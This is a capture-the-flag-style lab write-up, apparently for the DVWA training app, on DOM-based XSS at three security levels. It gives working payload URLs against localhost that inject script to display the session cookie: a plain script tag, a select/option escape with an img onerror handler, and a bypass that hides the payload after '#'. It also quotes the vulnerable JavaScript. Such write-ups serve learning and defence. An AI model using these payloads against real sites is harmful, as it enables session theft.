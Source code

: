 # XSS (DOM)

Objective

Run your own JavaScript in another user's browser, use this to steal the cookie
of a logged in user.

## low

Substitute inner text with our cookie.

```html
http://localhost:80/vulnerabilities/xss_d/?default=<script>document.write(document.cookie)</script>
```

> PHPSESSID=aakl7lkvbd0v7ltil3lju0ei92; security=low

## medium

It seems that our input is put under `<select>` and `<option>` tag.  
There's also a filter to find and delete `<script>` contents.  

```html
http://localhost:80/vulnerabilities/xss_d/?default=</option></select><img src="" onerror="javascript:document.write(document.cookie)">
```

> PHPSESSID=aakl7lkvbd0v7ltil3lju0ei92; security=medium

## high

In the high level our input is nicely filtered, but from the javascript in
`<select>` we can know that it reads the whole substring after `default=`.  
So if we disguise our code as an anchor, it should work well as php `_GET` only
reads the string before #.

vulnerable javascript in `<select>`:
```javascript
if (document.location.href.indexOf("default=") >= 0) {
	var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
	document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
}
```

```html
http://localhost:80/vulnerabilities/xss_d/?default=English#<script>document.write(document.cookie)</script>
```

> PHPSESSID=aakl7lkvbd0v7ltil3lju0ei92; security=high
